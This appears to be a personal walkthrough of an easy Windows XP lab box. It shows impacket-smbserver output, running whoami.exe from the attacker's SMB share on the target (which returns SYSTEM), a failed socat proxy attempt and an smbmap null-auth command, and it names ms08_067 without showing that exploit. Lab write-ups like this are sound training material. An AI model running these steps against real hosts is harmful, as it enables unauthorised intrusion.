 
---

Box: Windows
Level: Easy
### Index
1. impacket-smbserver to start smb server to send and receive files to Target
2. Using Socat to start the Listener 
3. SMB Null Auth
4. smb exploit using ms08_067_netapi

I was able to start the smbserver using the following command
```
$ impacket-smbserver a /usr/share/windows-resources/binaries/
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.4,1033)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[-] TreeConnectAndX not found WHOAMI.EXE
[-] TreeConnectAndX not found WHOAMI.EX
[*] Closing down connection (10.10.10.4,1033)
[*] Remaining connections []
[*] Incoming connection (10.10.10.4,1036)
[*] AUTHENTICATE_MESSAGE (\,LEGACY)
[*] User LEGACY\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa

```

This was to host whoami.exe on kali machine. On a target machine, I ran the following command to check the username. 

```
\\10.10.16.5\a\whoami.exe
\\10.10.16.5\a\whoami.exe
NT AUTHORITY\SYSTEM

```

This was the Windows XP box. Easy to pwn. I failed to fireout how to setup a proxy that i can monitor when the payload is being sent on port 445. I tried socat and iptables but it didn't workl

I setup an iptable rule to forward all the traffic received on port 4444 to my burp 8080 but didn't work. I also tried to use 
```
socat TCP-LISTEN:4444,fork TCP:127.0.0.1:8080
```

The above command listen on port 4444 and forward the traffic to burp on port 8080. Didn't work. 

##### SMB Null Auth
```
smbmap -H <IP>
```

